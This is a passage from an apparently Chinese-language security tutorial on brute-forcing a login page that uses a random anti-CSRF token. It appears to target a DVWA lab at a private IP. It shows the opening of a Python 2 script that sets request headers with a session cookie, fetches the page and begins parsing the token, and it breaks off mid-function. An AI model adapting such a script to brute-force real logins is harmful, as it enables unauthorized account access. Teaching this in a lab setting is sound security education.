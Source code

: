    ![img](../../img/15622118048047.jpg)

   图 10-18

   

2. 在这种情况下，`Burpsuite` 就不再有效，需要使用脚本来抓取服务器产生的随机 `Token` 值，然后构造在 `HTTP` 请求包中，才能进行暴力破解。这里我们使用 `Python` 脚本来实现该功能。脚本内容如下

   ```
   import requests 
   from bs4 import BeautifulSoup 
   import sys 
   import re
   
   get_user_token = re.compile(r'(?<=value=").*?(?=")')
   
   def get_token(url): 
       reload(sys)     
       sys.setdefaultencoding('utf-8') 
       header = {                           # 构造 HTTP 头部
           'Host': '192.168.75.100',        # Web 服务器地址
           'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8', 
           'Accept-Encoding': 'gzip, deflate', 
           'Accept-Language': 'en-US,en;q=0.5', 
           'Connection': 'keep-alive', 
           'Cookie': 'security=high; PHPSESSID=jppnjuuif7gt6ss640goammjj5',   # 当前浏览器的 Cookie 值
           'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0' } 
       rep = requests.get(url, headers=header) 
       rep.encoding = 'utf-8' 
       soup = BeautifulSoup(rep.text, "lxml") 
       print len(rep.text) 
   ```